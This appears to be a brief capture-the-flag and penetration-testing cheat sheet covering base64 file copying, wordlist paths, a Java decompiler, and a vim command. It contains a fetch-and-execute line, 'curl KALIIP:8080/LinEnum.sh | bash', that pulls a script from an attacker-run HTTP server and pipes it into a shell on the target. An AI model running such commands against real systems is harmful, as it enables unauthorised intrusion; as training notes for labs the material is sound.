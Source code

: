 ```
base64 file
highlight beginning, hit enter to copy to bottom, ctrl+c, paste
base64 -d pastedfile
md5sum both to ensure accurate completion
```
# Quick file transfer & execute scripts
on attack
python -m SimpleHTTPServer 8080

on target
curl KALIIP:8080/LinEnum.sh | bash
LinEnum as example

## Best wordlists for quick ctfs
```
/usr/share/wordlists/metasploit/unix_passwords.txt
/usr/share/wordlists/metasploit/unix_users.txt
```

## Java (jar) decompiler
```
jd-gui
```
## Get many lines onto one line with vim
```
after edited file, often base64 encoded
:%s/\n//g
```
## How to replicate to gain access again:

